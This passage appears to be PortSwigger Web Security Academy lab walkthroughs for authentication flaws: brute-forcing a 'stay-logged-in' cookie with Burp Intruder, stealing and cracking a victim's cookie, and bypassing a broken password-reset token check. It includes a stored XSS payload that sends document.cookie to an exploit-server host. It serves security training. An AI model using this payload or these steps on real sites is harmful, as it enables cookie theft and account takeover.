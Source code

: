     `base64(username+':'+md5HashOfPassword)`
3.  Log out of your account.
4.  Send the most recent `GET /my-account` request to Burp Intruder.
5.  In Burp Intruder, add a payload position to the `stay-logged-in` cookie and add your own password as a single payload.
6.  Under **Payload processing**, add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted.
    -   Hash: `MD5`
    -   Add prefix: `wiener:`
    -   Encode: `Base64-encode`
7.  As the **Update email** button is only displayed when you access the `/my-account` page in an authenticated state, we can use the presence or absence of this button to determine whether we've successfully brute-forced the cookie. On the **Options** tab, add a grep match rule to flag any responses containing the string `Update email`. Start the attack.
8.  Notice that the generated payload was used to successfully load your own account page. This confirms that the payload processing rules work as expected and you were able to construct a valid cookie for your own account.
9.  Make the following adjustments and then repeat this attack:
    -   Remove your own password from the payload list and add the list of [candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) instead.
    -   Change the **Add prefix** rule to add `carlos:` instead of `wiener:`.
10.  When the attack is finished, the lab will be solved. Notice that only one request returned a response containing `Update email`. The payload from this request is the valid `stay-logged-in` cookie for Carlos's account.

## Offline password cracking
1.  With Burp running, use your own account to investigate the "Stay logged in" functionality. Notice that the `stay-logged-in` cookie is Base64 encoded.
2.  In the **Proxy > HTTP history** tab, go to the **Response** to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows:
    
    `username+':'+md5HashOfPassword`
3.  You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4.  Go to the exploit server and make a note of the URL.
5.  Go to one of the blogs and post a comment containing the following [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) payload, remembering to enter your own exploit server ID:
    
    `<script>document.location='//your-exploit-server-id.web-security-academy.net/'+document.cookie</script>`
6.  On the exploit server, open the access log. There should be a `GET` request from the victim containing their `stay-logged-in` cookie.
7.  Decode the cookie in Burp Decoder. The result will be:
    
    `carlos:26323c16d5f4dabff3bb136f2460a943`
8.  Copy the hash and paste it into a search engine. This will reveal that the password is `onceuponatime`.
9.  Log in to the victim's account, go to the "My account" page, and delete their account to solve the lab.

## Password reset broken logic
1.  With Burp running, click the **Forgot your password?** link and enter your own username.
2.  Click the **Email client** button to view the password reset email that was sent. Click the link in the email and reset your password to whatever you want.
3.  In Burp, go to **Proxy > HTTP history** and study the requests and responses for the password reset functionality. Observe that the reset token is provided as a URL query parameter in the reset email. Notice that when you submit your new password, the `POST /forgot-password?temp-forgot-password-token` request contains the username as hidden input. Send this request to Burp Repeater.
4.  In Burp Repeater, observe that the password reset functionality still works even if you delete the value of the `temp-forgot-password-token` parameter in both the URL and request body. This confirms that the token is not being checked when you submit the new password.
5.  In your browser, request a new password reset and change your password again. Send the `POST /forgot-password?temp-forgot-password-token` request to Burp Repeater again.